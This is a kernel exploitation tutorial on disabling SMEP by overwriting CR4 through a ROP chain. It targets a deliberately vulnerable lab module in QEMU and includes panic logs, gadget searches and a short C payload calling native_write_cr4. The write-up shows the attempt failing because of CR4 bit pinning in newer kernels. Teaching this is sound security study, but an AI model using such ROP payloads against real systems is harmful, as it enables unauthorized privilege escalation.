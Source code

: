 ```yaml
---
description: An old technique
---
```


# Kernel ROP - Disabling SMEP

## Setup

Using the same setuo as [ret2usr](../../../types/kernel/kernel-rop-ret2usr.md), we make one single modification in `run.sh`:

```bash
#!/bin/sh

qemu-system-x86_64 \
    -kernel bzImage \
    -initrd initramfs.cpio \
    -append "console=ttyS0 quiet loglevel=3 oops=panic nokaslr pti=off" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    -smp cores=2 \
    -cpu qemu64,+smep \        # add this line
    -s
```

Now if we load the VM and run our exploit from last time, we get a kernel panic.

<details>

<summary>Kernel Panic</summary>

```
[    1.628455] Yes? �U"��
[    1.628692] unable to execute userspace code (SMEP?) (uid: 1000)
[    1.631337] BUG: unable to handle page fault for address: 00000000004016b9
[    1.633781] #PF: supervisor instruction fetch in kernel mode
[    1.635878] #PF: error_code(0x0011) - permissions violation
[    1.637930] PGD 1296067 P4D 1296067 PUD 1295067 PMD 1291067 PTE 7c52025
[    1.639639] Oops: 0011 [#1] SMP
[    1.640632] CPU: 0 PID: 30 Comm: exploit Tainted: G           O       6.1.0 #6
[    1.646144] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.14.0-2 04/01/2014
[    1.647030] RIP: 0010:0x4016b9
[    1.648108] Code: Unable to access opcode bytes at 0x40168f.
[    1.648952] RSP: 0018:ffffb973400c7e68 EFLAGS: 00000286
[    1.649603] RAX: 0000000000000000 RBX: 00000000004a8220 RCX: 00000000ffffefff
[    1.650321] RDX: 00000000ffffefff RSI: 00000000ffffffea RDI: ffffb973400c7d08
[    1.651031] RBP: 0000000000000000 R08: ffffffffb7ca6448 R09: 0000000000004ffb
[    1.651743] R10: 000000000000009b R11: ffffffffb7c8f2e8 R12: ffffb973400c7ef8
[    1.652455] R13: 00007ffdfe225520 R14: 0000000000000000 R15: 0000000000000000
[    1.653218] FS:  0000000001b57380(0000) GS:ffff9c1b07800000(0000) knlGS:0000000000000000
[    1.654086] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    1.654685] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
[    1.655452] Call Trace:
[    1.656167]  <TASK>
[    1.656846]  ? do_syscall_64+0x3d/0x90
[    1.658073]  ? entry_SYSCALL_64_after_hwframe+0x46/0xb0
[    1.660144]  </TASK>
[    1.660835] Modules linked in: kernel_rop(O)
[    1.662360] CR2: 00000000004016b9
[    1.663362] ---[ end trace 0000000000000000 ]---
[    1.664702] RIP: 0010:0x4016b9
[    1.665386] Code: Unable to access opcode bytes at 0x40168f.
[    1.666167] RSP: 0018:ffffb973400c7e68 EFLAGS: 00000286
[    1.668501] RAX: 0000000000000000 RBX: 00000000004a8220 RCX: 00000000ffffefff
[    1.669777] RDX: 00000000ffffefff RSI: 00000000ffffffea RDI: ffffb973400c7d08
[    1.670710] RBP: 0000000000000000 R08: ffffffffb7ca6448 R09: 0000000000004ffb
[    1.672122] R10: 000000000000009b R11: ffffffffb7c8f2e8 R12: ffffb973400c7ef8
[    1.672795] R13: 00007ffdfe225520 R14: 0000000000000000 R15: 0000000000000000
[    1.673471] FS:  0000000001b57380(0000) GS:ffff9c1b07800000(0000) knlGS:0000000000000000
[    1.673854] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    1.674124] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
[    1.674576] Kernel panic - not syncing: Fatal exception
[    1.689999] Kernel Offset: 0x36200000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[    1.695855] ---[ end Kernel panic - not syncing: Fatal exception ]---
```

</details>

It's worth noting what it looks like for the future - especially these 3 lines:

```
[    1.628692] unable to execute userspace code (SMEP?) (uid: 1000)
[    1.631337] BUG: unable to handle page fault for address: 00000000004016b9
[    1.633781] #PF: supervisor instruction fetch in kernel mode
```

## Overwriting CR4

So, instead of just returning back to userspace, we will try to overwrite CR4. Luckily, the kernel contains a very useful function for this: [`native_write_cr4(val)`](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L444). This function quite literally overwrites CR4.

Assuming KASLR is still off, we can get the address of this function via `/proc/kallsyms` (if we update `init` to log us in as `root`):

```
~ # cat /proc/kallsyms | grep native_write_cr4
ffffffff8102b6d0 T native_write_cr4
```

Ok, it's located at `0xffffffff8102b6d0`. What do we want to change CR4 to? If we look at the kernel panic above, we see this line:

```
[    1.654685] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
```

CR4 is currently `0x00000000001006b0`. If we remove the 20th bit (from the smallest, zero-indexed) we get `0x6b0`.

The last thing we need to do is find some gadgets. To do this, we have to convert the `bzImage` file into a `vmlinux` ELF file so that we can run `ropper` or `ROPgadget` on it. To do this, we can run [`extract-vmlinux`](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux), from the official Linux git repository.

```bash
$ ./extract-vmlinux bzImage > vmlinux
$ file vmlinux 
vmlinux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=3003c277e62b32aae3cfa84bb0d5775bd2941b14, stripped
```

```bash
$ ropper -f vmlinux --search "pop rdi"
0xffffffff811e08ec: pop rdi; ret;
```

### Putting it all together

All that changes in the exploit is the overflow:

```c
// overflow
uint64_t payload[20];

int i = 6;

payload[i++] = 0xffffffff811e08ec;      // pop rdi; ret
payload[i++] = 0x6b0;
payload[i++] = 0xffffffff8102b6d0;      // native_write_cr4
payload[i++] = (uint64_t) escalate;

write(fd, payload, 0);
```

We can then compile it and run.

## Failure

This fails. Why?

If we look at the resulting kernel panic, we meet an old friend:

```
[    1.542923] unable to execute userspace code (SMEP?) (uid: 0)
[    1.545224] BUG: unable to handle page fault for address: 00000000004016b9
[    1.547037] #PF: supervisor instruction fetch in kernel mode
```

SMEP is enabled again. How? If we [debug the exploit](../../../types/kernel/debugging-a-kernel-module.md), we definitely hit both the gadget and the call to `native_write_cr4()`. What gives?

Well, if we look at [the source](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L444), there's another feature:

```c
void __no_profile native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) {
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

Essentially, it will check if the `val` that we input disables any of the bits defined in `cr4_pinned_bits`. This value is [set on boot](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L507), and effectively stops "sensitive CR bits" from being modified. If they are, they are **unset**. Effectively, modifying CR4 doesn't work any longer - and hasn't since [version 5.3-rc1](https://elixir.bootlin.com/linux/v5.3-rc1/source/arch/x86/kernel/cpu/common.c#L431).
